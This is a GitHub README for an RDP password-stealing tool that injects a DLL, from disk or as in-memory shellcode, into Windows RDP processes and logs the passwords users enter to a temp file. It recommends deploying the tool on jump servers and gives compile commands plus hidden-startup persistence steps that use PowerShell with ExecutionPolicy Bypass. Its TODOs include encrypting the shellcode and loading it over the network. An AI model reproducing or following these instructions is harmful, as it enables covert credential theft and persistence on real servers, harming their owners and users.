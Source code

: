 
# RDP-hook-stealer
This is a tool that I code in my process of understanding windows internals. I thought it was a very good idea to deploy it on jump servers. Each password entered will be stored in ``C:\users\<user>\AppData\Local\Temp\data.bin``

## Files
There are two files: rdp_indisk.cpp and rdp_inmemory.cpp. They are quite self-descriptive, but basically one injects the DLL from disk, and another from memory, being in shellcode format in the binary itself

## Compilation
To compile the indisk:
``x86_64-w64-mingw32-gcc rdp_indisk.cpp -o rdp_indisk.exe -lstdc++ -static``

To compile the inmemory
``x86_64-w64-mingw32-gcc rdp_inmemory.cpp -o rdp_inmemory.exe -lstdc++ -static``

## Example
![image](https://github.com/juanga333/RDP-hook-stealer/assets/51821633/24ada562-c215-4ca8-9bc6-6182e86dffa2)

## Persistence
1. Create a .lnk in startup folder
``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`` with the content ``Powershell -ExecutionPolicy Bypass -File “C:\run.ps1”``
2. Create a file called ``C:\run.ps1`` with the content ``Powershell -Command “& {Start-Process ‘C:\s.exe’ -WindowStyle Hidden}”``
3. Enjoy and search from time to time data.bin file in the file explorer.

## TODO
- Encrypt shellcode loaded into memory
- Support for sending shellcode via socket (network)

